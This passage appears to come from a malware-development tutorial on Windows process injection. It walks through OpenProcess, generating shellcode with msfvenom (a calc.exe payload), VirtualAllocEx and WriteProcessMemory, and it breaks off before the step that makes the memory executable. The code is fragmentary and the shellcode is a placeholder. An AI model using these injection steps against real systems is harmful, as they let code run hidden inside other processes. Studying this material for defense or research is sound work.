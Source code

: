 ![Screenshot 2025-09-21 130809.png](https://raw.githubusercontent.com/WinDyAlphA/miscDownloads/refs/heads/main/maldev3.png)

In this structure we can get the PID (`dwProcessId`) 

```c
DWORD pid = processInfo.dwProcessId;

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, pid)
```

Now that we have a handle, we can allocate memory in this process : 

### 3. Allocate memory in that process with read/write permissions.

We need to know the amount of bytes necessary to write to the process memory. So this is basically the shellcode length. In order to craft our shellcode, we can use msfvenom : 

`msfvenom -p windows/x64/exec CMD="calc.exe" -f raw -o calc.bin`

Put this shellcode in your code like shown down below: 

```c
const byte shellcode[276] = {
    0xfc,0x48,0x83, /* ... repeat until having 276 elements ... */
    /* if you don't give 276 values, remaining data will be initialized to 0 */
};
```

So we are going to use VirtualAllocEx (refer to the [documentation](https://learn.microsoft.com/fr-fr/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) if you want to learn more).

```c
VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

### 4. Write your shellcode into the allocated memory.

Now that we have our shellcode and the memory allocated in the process to put this shellcode in, let’s write this memory. 

We are going to use `WriteProcessMemory` to do that. 

```c
SIZE_T bytesWritten = 0;
WriteProcessMemory(hProcess, allocatedMemory, shellcode, sizeof(shellcode), &bytesWritten) == 0
```

<aside>
💡

I’m not gonna talk too much about error handling here. However, you can check with a condition like this  
"!ok || bytesWritten != sizeof(shellcode)"
if you have written the entire length of the shellcode in the memory.

</aside>

### 5. Change the memory protections so that region is executable.
